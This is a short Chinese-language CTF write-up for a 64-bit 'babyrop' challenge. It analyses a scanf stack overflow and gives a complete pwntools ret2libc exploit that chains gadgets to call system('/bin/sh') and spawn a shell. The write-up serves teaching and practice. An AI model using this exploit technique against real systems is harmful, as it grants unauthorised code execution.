


# 知识点

ret2libc


# 题目分析

1. 查看保护情况，64位程序，开启NX保护。

   ```bash
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，发现scanf存在栈溢出漏洞。

   

3. 继续分析，发现题目提供了system函数和/bin/sh字符串。直接ret2libc即可。

   


# EXP

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./babyrop')
elf = ELF('./babyrop')

system = elf.sym['system']
binsh = elf.search('/bin/sh\x00').next()

pop_rdi = 0x400683
ret = 0x400479

payload = 'A' * 0x10 + 'deadbeef'
payload += p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system) + p64(0)
io.sendline(payload)

io.interactive()
```

